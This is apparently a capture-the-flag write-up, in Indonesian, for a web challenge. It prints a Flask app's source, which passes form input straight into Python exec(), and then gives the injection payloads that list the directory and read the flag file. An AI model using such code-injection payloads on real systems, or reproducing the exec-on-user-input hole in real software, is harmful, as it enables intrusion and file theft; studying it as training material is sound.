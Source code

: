 # Kucing meong meong (50 Points)
http://ctf.serangkota.go.id:9972/
# Solved
<b>Notice! Write-up ini bersifat spoiler, jika kalian sudah lelah menemukan dimana letah celahnya disarankan membaca write-up. akan tetapi jika belum berusaha sama sekali diharapkan di coba-coba dulu :D</b><br>
CTRL + U pada website
```html
<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body> 
	<img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
	
	<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>62</h1>
	
</body>
<!-- /debug -->
</html>
```
Kita menemukan angka acak dan ada salah satu komentar yaitu <b>/debug</b> yang mungkin menunjukkan untuk ke file debug mungkin :/, mari kita buka!<br>
Setelah kita akses kita mendapatkan source code dari website tersebut
```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garasi
	garasi = {}
	try: exec(recipe, garasi)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def organisasi(*args, **kwargs):
		bahan = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (bahan, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			bahan = request.form.get('bahan', '')
			recipe = '%s = %s' % (bahan, request.form.get('meteran', ''))

		calc(recipe)

		if garasi.get(bahan, ''):
			return render_template('index.html', calculations=garasi[bahan])

		return func(*args, **kwargs)
	return organisasi

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=5001)
```
Kita bisa lihat disini, ada code yang bernama <b>exec</b> yang mengijinkan kita untuk mengeksekusi script python kita sendiri melalui
```python
request.form.get('bahan','')
request.form.get('meteran', '')
```
Oke mari kita exploit!, ini adalah exploit yang saya gunakan untuk mendapatkan semua file yang berada di directory tersebut
```
bahan=a
meteran=[1]; import os; a.append([x for x in os.listdir("./")])
```
Hasil :
```html
<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body>
    <img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
    <h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>[1, [&#39;requirements.txt&#39;, &#39;templates&#39;, &#39;aplikasi.py&#39;, &#39;flag&#39;]]</h1>
</body>
<!-- /debug -->
</html>
```
Kita bisa lihat bahwasannya ada file yang bernama <b>flag</b>, mari kita coba baca file tersebut menggunakan script ini
```
[1]; f = open("flag", "r"); a.append(f.read())
```
Boom! Flag muncul :D :v<br>
Flag : <b>DiskoCTF{my_F1rst_flask_4pp}</b>
